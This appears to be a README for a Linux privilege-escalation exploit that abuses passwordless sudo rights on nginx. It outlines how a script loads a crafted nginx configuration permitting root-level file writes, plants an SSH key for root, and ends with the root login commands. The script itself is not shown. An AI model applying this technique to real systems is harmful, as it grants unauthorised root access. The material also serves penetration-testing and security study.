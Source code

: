 # Privilege Escalation - NGINX / SUDO

Condition - You must have sudo permission on `nginx`:

```bash
user@host:~$ sudo -l
Matching Defaults entries for user on host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User user may run the following commands on host:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

From an existing interractive session create or upload the `exploit.sh` script.

This exploit will create a nginx configuration and load it.
The configuration will allow you to `PUT` resources in the system with root permission. 
The script will generate a SSH key and store it as authorized key to connect to the root account.

Run the exploit on the target: 
```bash
./exploit.sh
```

Store the SSH Private Key then use it to connect to the host: 
```bash
chmod 600 root_key
ssh -i root_key root@host
```


## Credit 

- Exploit redaction - GRILL Dylan
- Based on Darren Martyn exploit - https://darrenmartynie.wordpress.com/2021/10/25/zimbra-nginx-local-root-exploit/

